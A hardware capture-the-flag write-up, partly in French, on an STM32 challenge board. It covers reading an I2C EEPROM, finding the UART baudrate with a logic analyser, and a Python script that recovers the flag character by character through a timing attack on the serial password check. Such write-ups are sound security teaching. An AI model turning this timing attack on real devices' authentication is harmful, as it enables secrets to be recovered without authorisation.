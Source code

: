 ![alt text](<../images/writeups/Unbolted/Pasted image 20240114151101.png>)

**MCU**: ARMX - STM32F103 - RBT6 - GH28593 - CHNGH712 (LQFP64)
Datasheet: https://www.mouser.fr/datasheet/2/389/stm32f103c8-1851025.pdf

**FLASH**: VP235 - 67M - A85J

**I2C serial EEPROM**: 24LC64 - J/SM - 1637WHK
Datasheet: https://ww1.microchip.com/downloads/aemDocuments/documents/MPD/ProductDocuments/DataSheets/24AA64-24FC64-24LC64-64-Kbit-I2C-Serial-EEPROM-20001189U.pdf
**SPI serial EEPROM**: 25LC080
Datasheet: https://ww1.microchip.com/downloads/aemDocuments/documents/MPD/ProductDocuments/DataSheets/25LCXXX-8K-256K-SPI-Serial-EEPROM-High-Temp-Family-Data-Sheet-20002131E.pdf

![alt text](<../images/writeups/Unbolted/Pasted image 20240114203933.png>)

# CHALL 1 - I2C

Frequency information:
![alt text](<../images/writeups/Unbolted/Pasted image 20240301191406.png>)

Read sequence at current address:
![alt text](<../images/writeups/Unbolted/Pasted image 20240301191552.png>)
![alt text](<../images/writeups/Unbolted/Pasted image 20240301191959.png>)
We understand that in order to read at curr addr we need to send the value:
```
0b10100111 == 0xa7
```


![alt text](<../images/writeups/Unbolted/Pasted image 20240114163533.png>)

![alt text](<../images/writeups/Unbolted/Pasted image 20240114163453.png>)

# CHALL 2 - UART

On fait le montage pour s'interfacer en série en UART sur la board et on branche en parallèle l'analyseur logique pour déterminer le baudrate. Le montage donne ça:

![alt text](<../images/writeups/Unbolted/Pasted image 20240310134249.png>)

Ensuite avec Pulseview on calcule le baudrate avec un signal d'appui sur une touche du touchpad de la board:
![alt text](<../images/writeups/Unbolted/Pasted image 20240310134030.png>)

baudrate = 1 / 17us = 1 / 0.000017 =~ 57600

Ensuite on décode ça en UART pour vérif sur Pulseview et on obtient:
![alt text](<../images/writeups/Unbolted/Pasted image 20240310134139.png>)
Bingo :)

Ensuite on s'interface en série avec miniterm:
![alt text](<../images/writeups/Unbolted/Pasted image 20240310134411.png>)
On se rend compte qu'il y a un menu avec une option FLAG qui permet de tester si le flag est bon, en testant plusieurs fois on se dit qu'il serait possible d'effectuer une timing attack sur cet input et donc on écrit ce script python3:
```python
import serial
import time
from string import printable

ser = serial.Serial('/dev/ttyUSB0', 57600)

# ser.write(b"1")
# ser.write(b"\x0A\x0D")
ser.write(b"FLAG")
# time.sleep(0.000017)
ser.write(b"\x0D\x0A")
print("Message envoyé avec succès")

flag = ""
chars = printable[:-6]

while True:
    best_time = 0
    best_c = ''
    for c in chars:
        buff = flag + c
        start = time.time()
        ser.write(buff.encode()+b"\x0A\x0D")
        ser.readlines(2)
        end = time.time()
        timer = end-start
        if timer > best_time:
            best_time = timer
            best_c = c

    print(best_time)
    flag = flag + best_c
    print(flag)
    if flag[-1] == '}':
        break


print(f"Flagged: {flag}")
ser.close()
```

Et on obtient bien le flag :)